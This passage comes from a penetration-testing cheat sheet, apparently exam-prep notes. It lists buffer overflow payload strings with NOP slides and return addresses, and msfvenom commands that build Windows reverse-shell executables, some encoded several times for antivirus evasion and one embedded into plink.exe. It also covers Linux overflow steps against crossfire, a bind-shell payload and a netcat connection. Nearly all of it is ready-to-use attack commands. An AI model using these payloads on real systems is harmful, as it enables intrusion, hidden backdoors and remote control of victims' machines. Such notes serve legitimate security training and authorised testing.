     -   Final Payload with NOP slide  
        buffer="A"\*2606 + "\\x8f\\x35\\x4a\\x5f" + "\\x90" \* 8 +
        shellcode

    -   Create a PE Reverse Shell  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f  
        exe -o shell\_reverse.exe

    -   Create a PE Reverse Shell and Encode 9 times with
        Shikata\_ga\_nai  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f  
        exe -e x86/shikata\_ga\_nai -i 9 -o
        shell\_reverse\_msf\_encoded.exe

    -   Create a PE reverse shell and embed it into an existing
        executable  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f
        exe -e x86/shikata\_ga\_nai -i 9 -x
        /usr/share/windows-binaries/plink.exe -o
        shell\_reverse\_msf\_encoded\_embedded.exe

    -   Create a PE Reverse HTTPS shell  
        msfvenom -p windows/meterpreter/reverse\_https LHOST=$ip
        LPORT=443 -f exe -o met\_https\_reverse.exe

-   Linux Buffer Overflows

    -   Run Evans Debugger against an app  
        edb --run /usr/games/crossfire/bin/crossfire

    -   ESP register points toward the end of our CBuffer  
        add eax,12  
        jmp eax  
        83C00C add eax,byte +0xc  
        FFE0 jmp eax

    -   Check for “Bad Characters” Process of elimination - Run multiple
        times 0x00 - 0xFF

    -   Find JMP ESP address  
        "\\x97\\x45\\x13\\x08" \# Found at Address 08134597

    -   crash = "\\x41" \* 4368 + "\\x97\\x45\\x13\\x08" +
        "\\x83\\xc0\\x0c\\xff\\xe0\\x90\\x90"

    -   msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4444 -f c -b
        "\\x00\\x0a\\x0d\\x20" –e x86/shikata\_ga\_nai

    -   Connect to the shell with netcat:  
        nc -v $ip 4444
        
Shells
===================================================================================================================================
